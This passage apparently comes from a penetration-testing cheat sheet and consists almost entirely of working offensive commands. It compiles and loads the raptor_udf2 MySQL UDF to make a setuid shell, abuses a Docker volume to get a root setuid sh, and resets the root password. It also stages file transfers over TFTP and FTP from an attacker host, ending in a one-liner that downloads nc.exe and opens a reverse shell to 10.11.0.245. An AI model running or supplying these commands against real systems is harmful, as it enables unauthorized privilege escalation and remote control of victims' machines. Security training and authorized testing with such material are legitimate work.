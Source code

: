 ```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```text
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/raptor_udf2.so'));
select * from npn into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell');
```

### Docker Privilege Esclation

```bash
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```

### Resetting root Password

```bash
echo "root:spotless" | chpasswd
```

### Uploading Files to Target Machine

#### TFTP

```bash
#TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file
```

#### FTP

```bash
# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve

# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt 
ftp -s:ftp-commands.txt

# Or just a one-liner
(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye) > ftp.txt & ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd
```
